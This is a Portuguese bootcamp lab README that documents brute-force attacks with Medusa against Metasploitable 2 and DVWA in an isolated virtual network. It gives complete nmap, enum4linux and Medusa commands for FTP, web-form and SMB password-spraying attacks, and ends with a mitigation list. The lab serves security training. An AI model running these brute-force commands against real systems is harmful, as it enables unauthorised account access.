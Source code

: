 # Laboratorio: Criando um ataque de brute force de senhas com medusa e kali linux (DIO)
Este repositório documenta a execução de um desafio prático de segurança da informação, focado em ataques de força bruta. O projeto foi desenvolvido como parte do bootcamp de Cyber Segurança do Santander - Cibersegurança 2025 - DIO.

*Autor:* Marcelo Leal

*LinkedIn:* https://www.linkedin.com/in/slmarcelo/

---

##  Descrição do Desafio

O objetivo deste projeto é implementar e documentar um cenário prático de ataque de força bruta utilizando *Kali Linux* e a ferramenta *Medusa. O ambiente de teste controlado é composto por máquinas virtuais vulneráveis (como **Metasploitable 2* e *DVWA*) para simular ataques a diferentes serviços (FTP, Web e SMB) e, em seguida, propor as devidas medidas de mitigação.

## 1. Configuração do Ambiente (Laboratório)

Para a realização dos testes, foi configurado um laboratório virtual isolado, garantindo que todas as atividades de pentest ficassem contidas e seguras.

* *Software de Virtualização:* VirtualBox
* *Configuração de Rede:* "Rede Interna" (VirtualBox) para isolar as VMs do restante da rede.

### Máquinas Virtuais

| Propósito | Sistema Operacional | Endereço IP (Exemplo) |
| :--- | :--- | :--- |
| 📍 *Atacante* | Kali Linux | 192.168.56.xxx |
| 🎯 *Vítima* | Metasploitable 2 | 192.168.56.xxx |

### Ferramentas Utilizadas

* *Nmap:* Para reconhecimento e escaneamento de portas e serviços.
* *Medusa:* Ferramenta principal para a execução dos ataques de força bruta.
* *Enum4Linux:* Para enumeração de usuários no serviço SMB.
* *Wordlists:* Listas de senhas e usuários


## 2. Descobrir IPs e verificar a conectividade entre as maquinas

Para descobrir o ip do Kali 

bash
ip addr

Com os seguintes comando é possivel descobrir os ips da rede para encontrar a VM Metasploitable

```bash
arp  -a
```

```bash
sudo nmap -sn 192.168.56.0/24
```

```bash 
sudo netdiscover -r 192.168.56.0/24
```


![Descobrindo IPs](imagens/descobrindo_ips.PNG)

Com os comando acima descobrimos que o ip da nossa VM Metasploitable é IP: 192.168.56.103

Confirmando o IP no Metasploitable

![IPs Meta](imagens/verificacao_ip_meta.PNG)

### 3. Reconhecimeto (nmap)

Com  o seguinte comando vamos verificar os serviços disponiveis no sistema alvo

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.103
```

![Scan Report NMAP](imagens/scan_report.PNG)

Apos rodar o scan temos os serviço e as versoes que estão rodando 

Para confirma se o serviço esta ativo vamos realizar a tentativa de conexao 

![Conectar ao FTP](imagens/conexao_ftp.PNG)


### 3.a Criando a wordlist para utilizar no ataque

No terminal do kali vamos digitar o sguinte comando 

Para criar a wordlist com os usuarios

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
```
para criar a wordlist com os senhas

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

![Wordlist](imagens/wordlist.PNG)


### 3.b O ataque (com o medusa)

Vamos utilizar o seguinte comando para executar o ataque

```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp -t 6 -f
```

Parâmetros principais:

-h host alvo

-U arquivo com usuário(s)

-P arquivo com senhas

-M ftp módulo FTP

-T 6 threads (paralela)

-f parar ao encontrar sucesso (opcional)

![Ataque](imagens/ataque.PNG)


Para validar o usuario e senha vamos executar o comando de acesso ao FTP

```bash
ftp 192.168.56.103 
```


![acesso](imagens/validacaoftp.PNG)


### 4 Ataque ao Formulário Web (DVWA formularios de login)

Simular um ataque de força bruta em um formulário de login web (DVWA) usando o módulo HTTP/form do Medusa (ou ferramentas alternativas como Hydra/Patator).

Descobrindo os parametros que o navegador espera receber


![falhalogin](imagens/falhadelogin.PNG)


Sabemos que o navegar espera receber (username; password; Login)

Executamos o seguinte comando 

```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```


apos rodar o comando vamos obter o seguinte resultado

![user e senha](imagens/usersenha.PNG)

testando os dados obtidos

![teste user e senha](imagens/testeusersenha.PNG)


### 5. Ataque em cadeia, enumeração SMB + Password Spraying

Demonstrar a técnica de password spraying contra o serviço SMB/Windows (tentar poucas senhas comuns contra muitos usuários para evitar bloqueios).

Enumerando o usuarios com enum4linux 

```bash
enum4linux -a 192.168.56.103 | tee enum4_output.txt
```

Parametros

-a vai ativar todas as tenicas possiveis

tee grava a saida em arquivo


criar os arquivos de wordlist smb_users.txt e senhas_spray.txt

Users
```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
```

senhas

```bash
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```
![smb user e senha](imagens/senhas_smb.PNG)




executando o ataque

```bash
medusa -h 192.168.56.103 -U users_smb.txt -P spray_pass.txt -M smb -T 4
```

Parâmetros

-h destino
-U lista de usuarios
-P lista de senhas
-M smbnt modulo para smb
-t 2 duas treads
-T 50 ate 50 hosts paralelos

![smb](imagens/dadossmb.PNG)




### Como mitigar esses ataques

* Desativar serviços desnecessarios
* Utilize sftp scp
* Utilize senhas fortes
* Politicas de bloqueios por numeros de tentativas
* Manter sempre atualizados e validados
* Autenticação multifator
* Auditorias periodicas
* Monitorar e alertar
* Monitoramento inteligente de logs
* Segmentação de rede
* Qualquer tentativa de multiplos logins deve ser alertado
* Prevenção e conciencia tecnica









